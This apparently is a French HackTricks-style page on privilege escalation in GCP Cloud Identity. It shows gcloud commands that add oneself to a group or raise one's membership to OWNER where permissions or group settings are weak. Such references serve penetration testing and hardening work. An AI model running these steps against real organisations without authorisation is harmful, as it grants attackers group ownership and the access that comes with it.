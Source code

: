 # GCP - Cloudidentity Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloudidentity

Pour plus d'informations sur le service cloudidentity, consultez cette page :

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### Ajoutez-vous à un groupe

Si votre utilisateur a suffisamment de permissions ou si le groupe est mal configuré, il pourrait être en mesure de se rendre membre d'un nouveau groupe :
```bash
gcloud identity groups memberships add --group-email <email> --member-email <email> [--roles OWNER]
# If --roles isn't specified you will get MEMBER
```
### Modifier l'appartenance au groupe

Si votre utilisateur a suffisamment de permissions ou si le groupe est mal configuré, il pourrait être en mesure de se faire PROPRIÉTAIRE d'un groupe dont il est membre :
```bash
# Check the current membership level
gcloud identity groups memberships describe --member-email <email> --group-email <email>

# If not OWNER try
gcloud identity groups memberships modify-membership-roles --group-email <email> --member-email <email> --add-roles=OWNER
```
{{#include ../../../banners/hacktricks-training.md}}
